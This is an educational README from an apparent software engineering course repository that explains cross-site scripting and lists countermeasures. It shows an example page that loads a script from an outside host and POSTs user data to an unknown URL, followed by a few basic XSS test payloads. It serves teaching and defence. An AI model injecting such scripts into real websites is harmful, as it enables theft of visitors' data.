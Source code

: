 # Cross Site Scripting (XSS)

Cross-site scripting (XSS) attacks are a type of injection in which malicious scripts are injected into otherwise benign and trusted websites. XSS attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser-side script, to a different end user. Flaws that allow these attacks to succeed are quite widespread and occur anywhere a web application uses input from a user within the output it generates without validating or encoding it.

## Software Engineering Course Specifications

_"Cross-site scripting (XSS) involves injecting malicious code into an otherwise safe website. It is usually done through user input that is not sufficiently sanitised before being processed and stored on the server._  
_Students should be able to interpret fragments of JavaScript related to cross-site scripting."_

Either the malicious code was inserted into the code base because it was accidentally inserted without [code reviews](../security_testing_approaches/README.md#Code_review) or an internal threat actor has intentionally inserted it, or an SQL/XXS code injection vulnerability has been exploited to insert it. Students should be able to identify that an script referring to a foreign context has been executed or that a POST request has been made to an unknown URL.

```html
<HTML>
    <HEAD>
        <TITLE>Welcome to yourWebsite</TITLE>
        <link href="http://yourwebsite.com/favicon.png" />
    </HEAD>
    <BODY>
        <H1>Your Website</H1>
    <SCRIPT src="http://www.randomUrl.com/danger.js"></SCRIPT>

    or

    <SCRIPT>
        const response = fetch("http://www.randomUrl.com", {
            method: 'POST', 
            headers: {
            'Content-Type': 'application/json; charset=UTF-8',
            },
        body: JSON.stringify(yourData),
        });
    </SCRIPT>
    </BODY>
</HTML>
```

## How to penetrate test for this vulnerability

To use these scripts, paste them into any input boxes or after the URL in the browser address bar and see what gets executed or saved to the HTML.

- `<script>alert(1)</script>`
- `<img src=x onload(alert(1))>`
- `<svg onload=alert(1)>`
- `<iframe src=”javascript:alert(1)”></iframe>`

## How to countermeasure this vulnerability

1. Regular [code reviews](../security_testing_approaches/README.md#Code_review)
2. Only known and secure third-party libraries should be externally linked. Preferably, after a code review, third-party libraries should be locally served.
3. Monitor 3rd party libraries for known vulnerabilities and, on discovery, patch the vulnerabilities.
4. Implement [Defensive data handling](../defensive_data_handling/README.md).
5. Declare the language `<html lang="en">`.
6. Declare charset `<meta charset="utf-8">`.
7. Implement a [Content Security Policy (CSP)](../content_security_policy/README.md) Blocking `<SVG>` and `<SCRIPT>` tags.
